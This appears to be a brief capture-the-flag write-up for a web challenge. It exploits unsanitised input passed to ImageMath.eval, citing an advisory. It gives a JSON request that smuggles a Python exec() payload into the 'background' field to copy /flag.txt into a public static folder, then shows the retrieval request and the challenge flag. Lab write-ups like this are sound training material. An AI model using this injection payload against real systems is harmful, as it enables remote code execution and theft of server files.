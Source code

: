 Look at code see the color/background input isnt sanitised
Do searching around ImageMath.eval to find https://github.com/advisories/GHSA-8vj2-vxx3-667w

Send request
```json
{
    "image": "valid image here",
    "background": [
        "exec(\"f = open('/app/application/static/flag.txt', 'w');f.write(open('/flag.txt', 'r').read());f.close()\")",
        255,
        255
    ]
}
```

That copies the flag into a dir we can read
```
GET /static/flag.txt
```
```
HTB{i_slept_my_way_to_rce}
```
